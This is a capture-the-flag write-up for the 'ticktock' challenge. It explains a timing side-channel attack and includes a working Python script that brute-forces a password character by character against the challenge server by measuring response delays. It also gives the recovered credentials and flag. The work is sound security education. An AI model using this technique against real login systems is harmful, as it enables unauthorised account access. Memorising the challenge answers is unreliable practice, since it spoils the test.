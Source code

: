 # ticktock
by Halogen
> Problem Description
## Solution
This had 0 solves until the admin dropped their insane hint
![hint.png|center](./assets/hint.png)
<center>🙏 Thank you @bbbb 🙏</center>

Woah! Look at all the asyncio.sleep. Wonder if we could exploit that?🤔oh we could, with a side channel attack called timing attack!

The idea is we brute force our admin and password smartly, by checking the time it took to process our wrong username/password. If it took longer, it was probably more "correct". First we brute force the length of the string as that is checked first, then each individual character, starting from the front.

**Sample Script (for `pwd`)**
```python
# Answers to find
usr = "0p3nr4leaf"
pwd = "r1g3boj8455871326i3w"

# Imports
import string, requests

i = 0
while i != len(pwd):

	# Keep a list of timings for each character
	result = []

	# For each character
	for c in string.ascii_lowercase + string.digits:

		# Sub it in and check timing
		r = requests.get(f"http://157.245.52.169:31662/flag?username={usr}&password={pwd[:i] + c + pwd[i+1:]}")

		# Add it to timings
		result.append((r.elapsed.total_seconds(), c))

	# Sort by timing
	result.sort()
	
	# Gets the character (slowest character)
	ans = result[-1]
	pwd = pwd[:i] + ans[1] + pwd[i+1:]

	# Slowly Print out answer
	print(pwd)
	i += 1
```

After using the retrieved username and password we get the flag 🚩!

Flag: `STF22{Play_OpenRA_d44149ca5ec9b17d}`